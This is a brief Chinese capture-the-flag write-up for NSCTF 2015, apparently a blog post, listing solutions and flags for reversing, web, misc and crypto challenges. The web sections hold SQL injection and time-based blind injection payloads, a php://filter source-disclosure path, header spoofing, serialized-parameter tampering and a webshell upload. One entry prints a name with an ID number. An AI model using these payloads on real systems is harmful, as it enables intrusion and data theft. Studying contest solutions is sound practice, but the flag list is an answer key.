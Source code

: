 ```yaml
---
title: nsctf2015-writeup
pubDatetime: 2015-10-13 00:45:04
tags:
  - ctf
description: Already Archive Before 20230604
postSlug: archive_nsctf2015_writeup
---
```


### re1

    ASCII找到flag:{NSCTF_md5065ca>01??ab7e0f4>>a701c>cd17340}
    异或0x7
    712df97688fe0b7a399f076d9dc60437

### re2

    找字符串
    flag:{NSCTF_md57e0cad17016b0>?45?f7c>0>4a>1c3a0}
    异或0x7
    NSCTF_md50b7dfc60761e798328a0d9793f96d4f7

###re500
pyc 逆字节码运行 getflag5()即可
flag:{NSCTF_md576d958d8a8640dfe2ada4811aef59b26}

### web1

    index.php
    flag:{NSCTF_1E72F25BA71580D7D7DDBD25ACF4A8F3}

### web2

    Referer: http://www.nsctf.net/
    X-Forwarded-For: 101.200.73.168

    Wm14aFp6cDdUbE5EVkVaZk5EZzRZamRoTW1SalkyUXdNbUUzTXpReE5qVmpNemxpWVRRMU1UZGtZ
    ZmxhZzp7TlNDVEZfNDg4YjdhMmRjY2QwMmE3MzQxNjVjMzliYTQ1MTdkYmN9
    flag:{NSCTF_488b7a2dccd02a734165c39ba4517dbc}

### web3

    key和ver都是5.5.9-1ubuntu4.12
    NjY2YzYxNjczYTdiNGU1MzQzNTQ0NjVmMzY2MzM3Mzk2NTM5NjIzMzM2NjMzMDM4NjIzMDMwMzAzMzM1MzIzODM3NjEzODM4NjMzNjYzNjE2MjM5MzA2Njdk
    666c61673a7b4e534354465f36633739653962333663303862303030333532383761383863366361623930667d
    flag:{NSCTF_6c79e9b36c08b00035287a88c6cab90f}

### web4

    找到password.txt
    username=admin&password=Nsf0cuS
    290bca70c7dae93db6644fa00b9d83b9.php
    本来看到以为是xss,结果直接改userlevel=root就好

    flag={NSCTF_76b44eac527ad5c8789f5d2e0f1ede9a}

### web5

    rot13,逆序,base64,移位,逆序
    flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

### web6

    改if里面的==为=号直接输出用户名密码
    G0od!JAVA3C41PTISAGO 1pt_Pa4sW0rd_K3y_H3re
    登陆后给出base64 解密 key_Ch3ck_.txt
    继续 Ch3ck_Au7h.php
    检查作者
    uname,upass提交
    flag:{NSCTF_d7590edfdf8bcf958ced10cec94273a}

### web7

    Xiaoming09231995
    开房记录 王伟   身份证号34112519831224875X

    flag:{NSCTF_3ad65730a8f203a5ab861169e9547f6d}

### web08

    php://filter/read=convert.base64-encode/resource=index.php
    flag:{NSCTF_9bac7a6e289bf89ee0061bd0abdef0ab}

### web09

    base64(md5(20150923)),id=3

    /.index.php.swp
    审计
    	http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/09/changepassword.php?userInfo=a:2:{s:2:"id";s:1:"1";s:4:"pass";s:8:"20150923";}&oldPass=20150923&newPass=6666
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### web10

    源码:http://www.nsctf.net:8000/fa81bb665474f11c025b5355582af315/web/10/index.php.
    先_CONFIG=1取消掉config,注释sql
    	password=/*!OR*/%1=1%23&username=\&Submit=%E6%8F%90%E4%BA%A4&_CONFIG=1
    	flag:{NSCTF_adf0ff1eb152b1e3398ba4523fc713f}

### web11

    可上传php5
    暴力上传生成小马,index.php里面发现flag
    flag{NSCTF_8f0fc74ddf786103ed56d20af3bf269}

### web12

    时间盲注 payload
    字段flag
    	sexlect(ord(substr((SELExCT(group_concat(column_name))FROM(information_schema.columns)WHERE(table_name)%2513%2527flag%2527),1,1)))>1
    内容
    	username=admin%2527and(selexct(selxect(slexep(5))and(selecxt(ord(substr((selexct(flag)from(flag)),12,1))>13))))%23&filtername=x&Submit=%E6%8F%90%E4%BA$A4
    flag:{NSCTF_98c5bf58e35877fc76ce03f0f01327c5}

### Misc1

    md5 nsfocous666

### Misc2

    提取出来key.rar 密码是nsfocous+5数字 爆破之
    nsfocous56317

    flag{NCTF_R4r_Cr4ck}

### Misc3

    主要是三个段 消费 初始 余额  确保两个等式正确 算一下就行 每1.8是B4
    flag{NSCTF_RfID_Cr4ck}

### Crypto

    直接AES解密 flag{DISJV_Hej_UdShofjyed}
    凯撒
    NSCTF_Rot_EnCryption

### Crypto2

    分离图片,第二个就是flag
    flag{NSCTF_e6532a34928a3d1dadd0b049d5a3cc57}

### Crypto3

    stegslove: blue0 反选 flag{NSCTF_Qr_C0De}
